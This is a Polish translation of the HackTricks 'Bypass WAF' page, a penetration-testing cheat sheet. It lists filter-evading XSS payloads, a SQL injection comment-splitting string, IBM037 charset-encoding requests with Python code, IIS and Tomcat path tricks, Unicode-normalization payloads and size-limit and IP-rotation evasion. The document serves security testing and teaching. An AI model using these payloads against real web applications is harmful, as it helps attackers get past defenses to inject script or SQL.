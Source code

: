 # Bypass WAF

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Bypassy Regex

Różne techniki mogą być używane do obejścia filtrów regex na zaporach ogniowych. Przykłady obejmują zmianę wielkości liter, dodawanie podziałów linii i kodowanie payloadów. Zasoby dotyczące różnych bypassów można znaleźć na stronach [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) i [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). Poniższe przykłady zostały zaczerpnięte z [tego artykułu](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Kodowanie znaków

W niektórych przypadkach, aplikacje internetowe mogą używać różnych kodowań znaków, takich jak UTF-8, ISO-8859-1, itp. Można to wykorzystać do obejścia WAF (Web Application Firewall).

### Bypassowanie WAF za pomocą kodowania znaków

1. Spróbuj wysłać żądanie HTTP z innym kodowaniem znaków, na przykład UTF-7 lub UTF-16. W niektórych przypadkach, WAF może nie być w stanie poprawnie zinterpretować takiego żądania i umożliwić dostęp do zasobów, które normalnie byłyby zablokowane.

2. Jeśli aplikacja internetowa używa kodowania znaków, które nie jest obsługiwane przez WAF, można spróbować wysłać żądanie z tym kodowaniem. Na przykład, jeśli WAF obsługuje tylko UTF-8, można spróbować wysłać żądanie z kodowaniem ISO-8859-1.

3. Można również spróbować wykorzystać różnice w kodowaniu znaków, takie jak homografy. Homografy to znaki, które wyglądają podobnie, ale mają inne kody Unicode. Na przykład, litera "a" (U+0061) może być zastąpiona przez literę "а" (U+0430), która wygląda tak samo, ale ma inny kod Unicode. Można spróbować wysłać żądanie z homografami, aby obejść WAF.

4. Jeśli WAF wykonuje normalizację kodowania znaków, można spróbować wysłać żądanie z niepoprawnie znormalizowanymi znakami. Na przykład, jeśli WAF normalizuje znaki diakrytyczne, można spróbować wysłać żądanie z niepoprawnie znormalizowanymi znakami diakrytycznymi.

### Podsumowanie

Bypassowanie WAF za pomocą kodowania znaków może być skuteczną techniką, jeśli WAF nie jest odpowiednio skonfigurowany lub nie obsługuje wszystkich kodowań znaków. Warto eksperymentować z różnymi kodowaniami i technikami, aby znaleźć sposób na obejście WAF i uzyskanie dostępu do zasobów, które normalnie byłyby zablokowane.
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## Obfuskacja

Obfuskacja jest techniką używaną do ukrywania prawdziwego znaczenia kodu lub danych, aby utrudnić ich analizę i zrozumienie. W przypadku omijania WAF (Web Application Firewall), obfuskacja może być używana do uniknięcia wykrycia i blokowania niebezpiecznych żądań.

### Obfuskacja znaków

Obfuskacja znaków polega na zamianie znaków w kodzie na inne znaki lub sekwencje znaków, które zachowują funkcjonalność kodu, ale utrudniają jego analizę. Przykłady technik obfuskacji znaków to:

- Zamiana liter na ich kod ASCII lub Unicode.
- Zamiana liter na ich odpowiedniki w innych alfabetach.
- Dodawanie losowych znaków lub białych znaków do kodu.

### Obfuskacja kodu

Obfuskacja kodu polega na modyfikacji kodu w taki sposób, aby był trudniejszy do zrozumienia i analizy. Przykłady technik obfuskacji kodu to:

- Usuwanie lub dodawanie zbędnych instrukcji.
- Zmiana nazw zmiennych i funkcji na losowe lub trudne do zrozumienia.
- Używanie skomplikowanych konstrukcji językowych, takich jak zagnieżdżone pętle i warunki.

### Obfuskacja danych

Obfuskacja danych polega na zmianie struktury lub formatu danych w celu utrudnienia ich analizy. Przykłady technik obfuskacji danych to:

- Szyfrowanie danych.
- Kompresja danych.
- Zmiana kolejności lub formatu danych.

### Obfuskacja protokołu

Obfuskacja protokołu polega na zmianie struktury lub formatu komunikacji między klientem a serwerem w celu utrudnienia analizy i wykrycia niebezpiecznych żądań. Przykłady technik obfuskacji protokołu to:

- Dodawanie losowych danych do żądań.
- Zmiana kolejności lub formatu nagłówków.
- Używanie nietypowych metod komunikacji, takich jak kodowanie Base64.

### Obfuskacja adresu IP

Obfuskacja adresu IP polega na ukryciu prawdziwego adresu IP klienta lub serwera poprzez przekierowanie ruchu przez pośrednika lub używanie usług proxy. Przykłady technik obfuskacji adresu IP to:

- Używanie usług proxy lub VPN.
- Przekierowywanie ruchu przez serwery pośredniczące.
- Używanie technik tunelowania, takich jak SSH tunneling.

### Obfuskacja żądań HTTP

Obfuskacja żądań HTTP polega na modyfikacji żądań HTTP w taki sposób, aby były trudniejsze do analizy i wykrycia przez WAF. Przykłady technik obfuskacji żądań HTTP to:

- Dodawanie losowych parametrów do żądań.
- Zmiana kolejności lub formatu parametrów.
- Używanie nietypowych metod HTTP, takich jak PUT lub DELETE.

### Obfuskacja odpowiedzi HTTP

Obfuskacja odpowiedzi HTTP polega na modyfikacji odpowiedzi HTTP w taki sposób, aby były trudniejsze do analizy i wykrycia przez WAF. Przykłady technik obfuskacji odpowiedzi HTTP to:

- Dodawanie losowych nagłówków do odpowiedzi.
- Zmiana kolejności lub formatu nagłówków.
- Używanie nietypowych kodów odpowiedzi HTTP.
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## Zgodność Unicode

W zależności od implementacji normalizacji Unicode (więcej informacji [tutaj](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), znaki, które mają zgodność Unicode, mogą ominąć WAF i wykonać zamierzony ładunek. Zgodne znaki można znaleźć [tutaj](https://www.compart.com/en/unicode)

### Przykład
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## Przekraczanie ograniczeń rozmiaru

W chmurze opartych na WAF-ach jest powszechne, że jeśli ładunek jest większy niż rozmiar X, żądanie nie zostanie sprawdzone przez WAF. Możesz po prostu użyć tego do ich ominięcia.

### Rotacja adresów IP

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
